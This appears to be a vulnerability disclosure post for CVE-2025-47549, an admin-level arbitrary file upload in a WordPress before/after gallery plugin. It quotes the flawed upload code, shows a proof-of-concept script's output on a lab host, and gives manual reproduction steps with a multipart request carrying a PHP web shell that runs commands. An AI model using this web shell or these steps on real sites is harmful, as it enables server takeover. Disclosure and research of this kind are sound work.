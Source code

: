 +++
title = 'Ultimate Before After Image Slider & Gallery – BEAF <= 4.6.10 - Authenticated (Admin+) Arbitrary File Upload via beaf_options_save'
date = 2025-05-07T05:18:12+00:00
hideToc = true
tags = ["CVE", "WordPress"]
+++
### CVE-2025-47549

The [Ultimate Before After Image Slider & Gallery](https://wordpress.org/plugins/beaf-before-and-after-gallery/) plugin does not sanitize the file types of the `beaf_options_save` action, allowing administrators or above to upload arbitrary files and potentially gain code execution on the server.

## TL;DR Exploits
* A POC [CVE-2025-47549.py](https://github.com/d0n601/CVE-2025-47549/blob/main/CVE-2025-47549.py) is provided to demonstrate an administrator uploading a web shell named `shell.php`.

```console
python3 CVE-2025-47549.py https://lab1.hacker admin PASSWORD
Logging into: https://lab1.hacker/wp-admin
Extracting nonce values...
Uploading web shell: shell.php
{"status":"success","message":"Options saved successfully!"}
Web Shell Location: https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php

Executing test command: ip addr
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 68200sec preferred_lft 68200sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86113sec preferred_lft 14113sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:e5:9e:f6:23 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>

```

## Details  
The `beaf_options_save` action calls the `beaf_save_options()` function on line [227](https://plugins.trac.wordpress.org/browser/beaf-before-and-after-gallery/trunk/admin/tf-options/classes/BEAF_Settings.php#L227) of `/wp-content/plugins/beaf-before-and-after-gallery/admin/tf-options/classes/BEAF_Settings.php` without enforcing any file type validation. 

Lines [281-292](https://plugins.trac.wordpress.org/browser/beaf-before-and-after-gallery/trunk/admin/tf-options/classes/BEAF_Settings.php#L281-292) of this function check the http request for `$_FILES` and only validates the mime type agains a generic `application/octet-stream`. It will then store the file in a web accessible directory `/wp-content/uploads/itinerary-fonts`.
```php
    if ( isset( $_FILES ) && ! empty( $_FILES['file'] ) ) {
        $tf_upload_dir = wp_upload_dir();
        if ( ! empty( $tf_upload_dir['basedir'] ) ) {
            $tf_itinerary_fonts = $tf_upload_dir['basedir'] . '/itinerary-fonts';
            if ( ! file_exists( $tf_itinerary_fonts ) ) {
                wp_mkdir_p( $tf_itinerary_fonts );
            }
            $tf_fonts_extantions = array( 'application/octet-stream' );
            for ( $i = 0; $i < count( $_FILES['file']['name'] ); $i++ ) {
                if ( in_array( $_FILES['file']['type'][ $i ], $tf_fonts_extantions ) ) {
                    $tf_font_filename = $_FILES['file']['name'][ $i ];
                    move_uploaded_file( $_FILES['file']['tmp_name'][ $i ], $tf_itinerary_fonts . '/' . $tf_font_filename );
                }
            }
        }
    }
```

## Manual Reproduction
1. Login to the admin panel and navigate to `Before and After Slider -> Settings`.
    * Example: `https://lab1.hacker/wp-admin/edit.php?post_type=bafg&page=beaf_settings`.
2. Start up Burp Suite or a similar tool and begin intercepting the traffic. 
3. Click the `Save` button in the lower right hand corner. 
![test1](/posts/images/cve-2025-47549/1.png)
4. Intercept the POST request in Burp, and append your own file data (ensure you use the correct form boundaries).
```
------WebKitFormBoundarydAJeoqdwR5qxfDb1
Content-Disposition: form-data; name="file[]"; filename="shell.php"
Content-Type: application/octet-stream

<?php
// Silence is golden
if (!empty($_GET['cmd'])) {
    echo "<pre>".shell_exec($_GET["cmd"])."</pre>";
}
------WebKitFormBoundarydAJeoqdwR5qxfDb1--
```
6. Modify the next request containing the form data to set the file name to `poc.php`: 
![test2](/posts/images/cve-2025-47549/2.png)
7. Naviage to `https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php` to execute the proof of concept.
![test3](/posts/images/cve-2025-47549/3.png)
